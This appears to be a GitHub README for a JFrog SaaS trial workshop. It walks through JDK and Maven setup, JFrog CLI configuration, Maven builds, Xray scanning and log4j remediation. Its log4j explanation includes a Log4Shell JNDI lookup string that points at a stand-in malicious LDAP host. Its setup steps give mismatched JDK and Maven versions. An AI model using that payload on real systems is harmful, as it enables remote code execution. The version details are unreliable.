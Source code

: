 # 🏗️ JFrog SaaS Trial Workshop Guide

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This guide will help you get started with JFrog SaaS and practice building a Maven project.

## 📝 Prerequisites
### JDK 17 Installation
<details>
<summary> Click to expand Maven installation steps </summary>

1. **Install JDK**
   - Download and install JDK from [OpenJDK](https://jdk.java.net/archive/)

2. **Configure Environment Variables**
   <details>
   <summary>Click to expand configuration steps</summary>

   - **Set JAVA_HOME**
     1. Open System Properties (Win + S → "Environment Variables")
     2. Click "Environment Variables" → "New" under System variables
     3. Set:
        ```
        Variable name: JAVA_HOME
        Variable value: C:\Program Files\Java\jdk-17
        ```
   
   - **Add Java to PATH**
     1. In System variables, select "Path" → "Edit"
     2. Click "New" and add:
        ```
        %JAVA_HOME%\bin
        ```
     3. Click "OK" to save
   </details>

3. **Verify Installation**
   ```bash
   # Check Java version
   java -version
   
   # Check Java compiler
   javac -version
   ```
   
   Expected output:
   ```
   openjdk version "1.8.0_442-internal"
   OpenJDK Runtime Environment (build 1.8.0_442-internal-b06)
   OpenJDK 64-Bit Server VM (build 25.442-b06, mixed mode)
   ```
</details>

### Maven 3.6.3
<details>
<summary>Click to expand Maven installation steps</summary>

1️⃣ **Download Maven**
   - Go to [Apache Maven download page](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - Download the Binary zip archive (e.g., `apache-maven-3.6.3-bin.zip`)

📂 2️⃣ **Extract Maven**
   - Extract the downloaded ZIP file to a directory, e.g.:
     ```
     C:\Program Files\Apache\Maven
     ```
   - Your Maven folder structure should look like:
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.9.6
     ```

⚙️ 3️⃣ **Set Environment Variables**

### Windows Environment Setup

#### Method 1: Using System Properties
```bash
# 1. Open System Properties
# Press Win + S and type "Environment Variables"
# Or right-click on This PC → Properties → Advanced system settings

# 2. Click "Environment Variables" button
# 3. Under "System variables" section, click "New"
# 4. Set MAVEN_HOME:
Variable name:  MAVEN_HOME
Variable value: C:\Program Files\Apache\Maven\apache-maven-3.9.6

# 5. Find "Path" variable, click "Edit"
# 6. Click "New" and add:
%MAVEN_HOME%\bin
# 7. Click "OK" on all windows to save
```


### Verify Installation
```bash
# Open a new Command Prompt and run:
mvn -version
```

Expected output:
```
Apache Maven 3.9.6 (...)
Maven home: C:\Program Files\Apache\Maven\apache-maven-3.9.6
Java version: 1.8.0_442, vendor: Oracle Corporation
Java home: C:\Program Files\Java\jdk1.8.0_442
Default locale: en_US, platform encoding: UTF-8
OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
```

> **Note:** After setting environment variables, you need to open a new Command Prompt for the changes to take effect.
</details>
</details>

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)  
Select "14-Day Free Trial", it will give you own JFrog Platform.
![alt text](images/trial.png)
2. Ensure you have access to:
   - ✅ **JFrog Artifactory (SaaS)**
   - ✅ **JFrog Xray** 

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories
![img_6.png](images/img_6.png)
1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-libs-snapshot` `sample-libs-release`

### 4. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - username
   - password or Reference Token (from Profile → Edit Profile → Generate an Identity Token)

### 5. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `settings.xml` pointing to your SaaS repositories.

### 6. Build and Deploy
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### 8. Enable Xray Scanning
1. Go to **JFrog Xray → Index Resource**
2. Add to watch:
   - Repositories: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Builds: `sample-maven-build`

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security has identified this log4j package as a true positive. You can view the detailed evidence in the security report.
![img_1.png](images/img_1.png)

#### Review the False Positive Results
![img_5.png](images/img_5.png)
> **86% of critical/high vulnerabilities are false positives**

![img_4.png](images/img_4.png)

#### 9.2 Block Vulnerable Version
![img_7.png](images/img_7.png)
1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   ![img.png](images/img.png)

2. **Create Policy:**  
   ![img_2.png](images/img_2.png)

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

The build should be successful and the issue was fixed.

7. **Analysis of Vulnerability Fixing Trends:**
Platform → Xray → Scan List → Builds
![alt text](images/buildList.png)

The build should complete successfully, confirming that the security issue has been fixed.

> **Happy building and stay secure! 🚀**